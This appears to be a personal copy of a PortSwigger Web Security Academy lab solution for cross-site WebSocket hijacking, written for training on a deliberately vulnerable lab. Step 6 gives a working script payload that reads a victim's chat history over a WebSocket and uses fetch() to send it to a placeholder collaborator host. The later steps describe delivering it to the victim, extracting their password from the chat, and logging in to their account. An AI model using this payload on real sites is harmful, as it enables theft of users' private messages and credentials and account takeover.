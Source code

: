 I tried with a solution without burp collaborator, but it didnt work. Maybe I will try when I pay the burp premium

https://portswigger.net/web-security/learning-paths/websockets-security-vulnerabilities/using-cross-site-websockets-to-exploit-vulnerabilities/websockets/cross-site-websocket-hijacking/lab#

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In the browser, go to the exploit server and paste the following template into the "Body" section:
    
    `<script> var ws = new WebSocket('wss://your-websocket-url'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`
7. Replace `your-websocket-url` with the URL from the WebSocket handshake (`YOUR-LAB-ID.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by Burp Collaborator.
8. Click "View exploit".
9. Poll for interactions in the Collaborator tab. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions in the Collaborator tab again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.